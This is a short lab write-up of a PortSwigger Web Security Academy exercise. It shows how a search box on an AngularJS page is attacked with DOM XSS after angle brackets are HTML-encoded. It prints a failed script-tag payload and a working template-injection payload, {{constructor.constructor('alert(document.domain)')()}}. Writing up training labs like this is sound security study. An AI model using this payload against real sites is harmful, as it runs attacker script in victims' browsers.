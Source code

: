 # DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression), you'll learn: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains a [DOM-based cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/dom-based) vulnerability in a [AngularJS](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection) expression within the search functionality.

AngularJS is a popular JavaScript library, which scans the contents of HTML nodes containing the `ng-app` attribute (also known as an AngularJS directive). When a directive is added to the HTML code, you can execute JavaScript expressions within double curly braces. This technique is useful when angle brackets are being encoded.

To solve this lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that executes an AngularJS expression and calls the `alert` function.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-11/images/Pasted%20image%2020221230054630.png)

In here, we can see there is a search box.

**Let's search something:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-11/images/Pasted%20image%2020221230054649.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-11/images/Pasted%20image%2020221230054701.png)

As you can see, our input is reflected to the web page.

**View source page:**
```html
<script type="text/javascript" src="/resources/js/angular_1-7-7.js"></script>
<script type="text/javascript" src="[/resources/js/angular_1-7-7.js](https://0a8e004c03d8b169c3a2c4e80031004c.web-security-academy.net/resources/js/angular_1-7-7.js)"></script>
    <title>DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded</title>
</head>
<body ng-app>
```

In here, we see the **AngularJS JavaScript library is being used, and the `<body>` tag is in `ng-app` directive.**

**Let's try to inject some JavaScript code:**
```html
<script>alert(document.domain)</script>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-11/images/Pasted%20image%2020221230054921.png)

**View source page:**
```html
<section class=blog-header>
    <h1>0 search results for '&lt;script&gt;alert(document.domain)&lt;/script&gt;'</h1>
    <hr>
</section>
```

As you can see, the `<>` is HTML encoded.

**However, since AngularJS is being used, we can execute JavaScript expressions within double curly braces:** (From [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md#storedreflected-xss---simple-alert-in-angularjs))
```js
{{constructor.constructor('alert(document.domain)')()}}
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-11/images/Pasted%20image%2020221230055646.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-11/images/Pasted%20image%2020221230055653.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-11/images/Pasted%20image%2020221230055709.png)

We did it!

# What we've learned:

1. DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded